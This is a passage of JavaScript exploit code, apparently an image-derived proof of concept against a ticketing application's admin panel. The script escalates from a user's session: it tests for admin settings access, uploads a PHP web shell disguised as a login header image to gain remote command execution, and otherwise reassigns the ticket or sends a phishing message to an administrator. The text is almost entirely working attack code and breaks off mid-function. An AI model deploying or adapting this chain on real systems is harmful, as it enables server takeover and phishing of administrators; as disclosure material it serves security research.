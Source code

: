 ```
      getMailInfo().then(function(data) {
        console.log("Passing payload to someone important...");
        var adminOrnextBestThing = parseAdmin(data);
        if ($('#changeOwnerForm').html()) {
          // We can assign someone, go for it
          console.log("We are allowed to reassign, attempting reassign to admin...");
          reAssignPayload(adminOrnextBestThing);
        }
        else {
          // Best we can do is send a phishing message with link to payload
          console.log("Reassign denied, we'll go phishing admin with message...");
          sendMessage(token, adminOrnextBestThing);
        }
      });
    };
    ticket = $('#changePriorityForm input[name="track"]').val();
    token = $('#changePriorityForm input[name="token"]').val();
    // testing if we can reach settings
    $.get( "/admin/admin_settings.php", function(htmldata) {
    var f = $('form[name="form1"]', $(htmldata));
    if(!f[0]) {
      passThePayload();
    }
    else {
      // We get the page, can we submit settings??
      $.ajax({
        url: $(f).attr('action'),
        type: 'POST',
        data : $(f).serialize(),
        success: function(response){
        var error = $('div.alert.alert-danger', $(response));
        if(error[0]) {
          // There are errors
          console.log('There are errors...');
          $(error).each(function(i,v) {
            var er = $(v).find('a')[0];
            if($(er).attr('href') == "index.php") {
              console.log('No access to save settings...');
              passThePayload();
            }
          });
        }
        else {
          console.log("Seems we have access to save settings, building backdoor...");
          // We will try to upload RCE payload
          var fd = new FormData(f[0]);
          fd.set('login-box-header', 'image');
          var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
            type: 'application/x-php'
          });
          fd.set('login-box-header-image', blob, 'whateverSTILLdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
          $.ajax({
            url: $(f).attr('action'),
            data: fd,
            processData: false,
            contentType: false,
            type: 'POST',
            success: function(data){
              console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
            }
          });
```